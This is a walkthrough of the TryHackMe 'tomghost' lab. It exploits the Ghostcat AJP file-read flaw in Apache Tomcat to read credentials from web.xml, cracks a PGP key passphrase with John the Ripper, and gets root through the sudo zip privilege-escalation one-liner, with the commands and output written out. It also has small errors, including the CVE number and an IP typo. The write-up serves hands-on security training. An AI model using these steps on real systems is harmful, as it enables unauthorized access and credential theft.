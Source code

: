 ```yaml
---
title: THM - tomghost
tags: [thm, CVE-2019-1938, ghostcat, ]
---
```


<div style="text-align:center;">
<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/016dea7c96e8b422241016405b571c8b.jpeg" alt="Challenge logo" style="height:150px;">
</div>

Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

As usual, we start with a simple nmap scan

```
$ nmap -sC -sV 10.10.23.208

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (EdDSA)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
MAC Address: 02:82:7E:1F:80:97 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Start with the web server accessible at the port 8080. Nothing more interesting rather than Apache Tomcat default page.

With a simple online search we can see a pretty known vulnerability for the same version: Ghostcat. This vulnerability, classified as `CVE-2019-1938`, is a file read/inclusion vulnerability in the AJP connector in Apache Tomcat. This is enabled by default with a default configuration port of 8009. A remote, unauthenticated attacker, could exploit this vulnerability to read web application files from a vulnerable server. In instances where the vulnerable web server allows file upload, an attacker could upload malicious JSP code within a variety of file types and trigger this vulnerability to gain remote code execution.

Let's use searchsploit to find some potential exploits.

```
$ searchsploit ghostcat

-------------------------------------------------------- -----------------------------
 Exploit Title                                          |  Path
-------------------------------------------------------- -----------------------------
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion       | multiple/webapps/48143.py
-------------------------------------------------------- -----------------------------
Shellcodes: No Results
```

Let's mirror it in our machine.

```
$ searchsploit -m multiple/webapps/48143.py
```

Run it to read `web.xml` file

```
$ python 48143.py -p 8009 -f WEB-INF/web.xml 10.10.23.208

...
  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>
...
```

We gather some credentials. Try to log in through SSH

```
$ ssh skyfuck@10.10.23.208

skyfuck@ubuntu:~$
```

The `/home/merlin` directory is group readable. We can read the user flag inside his home directory

```
skyfuck@ubuntu:~$ cat /home/merlin/user.txt

THM{GhostCat_1s_so_[redacted]}
```

Inside skyfuck's home directory we can see two interesting files

```
skyfuck@ubuntu:~$ ls -l

total 12
-rw-rw-r-- 1 skyfuck skyfuck  394 Mar 10  2020 credential.pgp
-rw-rw-r-- 1 skyfuck skyfuck 5144 Mar 10  2020 tryhackme.asc
```

`credential.pgp` is a file encrypted with a public key. `credential.asc` is the private key used to decrypt the messages. We can try to crack the private one with John The Ripper. Let's download them inside our machine

```
$ scp skyfuck@10.10.23.208:/home/skyfuck/credential.pgp
$ scp skyfuck@10.10.23.208:/home/skyfuck/tryhackme.asc
```

Let's crack them

```
$ gpg2john tryhackme.asc > hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash

alexandru        (tryhackme)
```

We have to import the private key and then decrypt the message.

```
$ gpg --import tryhackme.asc
$ gpg -d credential.pgp

gpg: WARNING: cypher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

We have a new pair of credentials. Let's use them to log into the machine as `merlin`.

```
$ ssh merlin@10.1.0.23.208

merlin@ubuntu:~$
```

Let's see which commands he can execute with sudo

```
merlin@ubuntu:~$ sudo -l

Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

`zip` is a privesc path. Go to GTFObins and use the following commands

```
merlin@ubuntu:~$ cd /tmp
merlin@ubuntu:/tmp$ TF=$(mktemp -u)
merlin@ubuntu:/tmp$ sudo zip $TF /etc/hosts -T -TT 'sh #'

# whoami
root
```

Let's get the flag

```
# cat /root/root.txt

THM{Z1P_1S_[redacted]}
```